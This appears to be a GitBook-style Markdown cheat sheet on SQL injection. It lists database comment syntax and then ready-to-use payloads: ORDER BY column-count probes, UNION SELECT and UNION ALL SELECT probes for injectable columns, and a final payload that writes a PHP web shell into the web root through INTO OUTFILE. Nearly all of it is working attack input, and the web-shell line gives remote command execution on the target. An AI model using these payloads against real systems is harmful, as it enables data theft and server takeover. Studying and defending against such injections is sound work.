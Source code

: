 ```yaml
---
description: >-
  SQL injection (SQLi) is a web security vulnerability that allows an attacker
  to interfere with the queries that an application makes to its database.
---
```


# SQL Injection

## SQL Injection basics

### Comments

```
Oracle
--comment

MSSQL
--comment
/*comment*/

PostgreSQL
--comment
/*comment*/

MySQL
#comment
-- comment [Note the space after the double dash]
/*comment*/
```

### Detecting Columns using `ORDER BY`

Finding how many columns in the query by using `order by`

```python
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
# and so on. Until you've found an error
```

### Inject in columns using `UNION SELECT`

Let says you've found 5 columns in the query. Now, it's time to check which columns are vulnerable/injectable.

```python
' UNION SELECT 'a',NULL,NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL,NULL--
# keep replacing 'a'. Until you've found an error.' UNION ALL SELECT 1-- -
```

### Inject in columns using `UNION ALL SELECT`

```python
' UNION ALL SELECT 1-- - 
' UNION ALL SELECT 1,2-- -
' UNION ALL SELECT 1,2,3-- -
# keep going until you've found one of the numbers in the output.
```

### Web-Shell/Backdoor

{% code title="PHP web-shell" %}
```php
' UNION ALL SELECT '<?php system($_REQUEST["cmd"]);?>' INTO OUTFILE '/var/www/html/cmd.php'-- -
```
{% endcode %}
